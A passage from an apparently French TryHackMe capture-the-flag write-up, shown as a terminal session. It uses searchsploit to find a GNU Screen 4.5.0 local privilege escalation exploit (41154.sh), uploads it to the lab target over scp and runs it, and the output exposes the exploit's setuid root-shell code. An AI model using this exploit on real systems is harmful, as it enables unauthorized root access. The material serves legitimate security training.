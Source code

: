On trouve screen-4.5.0 qui possède une faile.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit screen 4.5.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                                                         | linux/local/41152.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/linux/local/41154.sh ./
tim@kali:~/Bureau/tryhackme/write-up$ dos2unix 41154.sh 
dos2unix: conversion du fichier 41154.sh au format Unix…

tim@kali:~/Bureau/tryhackme/write-up$ scp ./41154.sh ramen@kothfood.thm:.
ramen@kothfood.thm's password: 
41154.sh                 

ramen@foodctf:~$ ./41154.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
```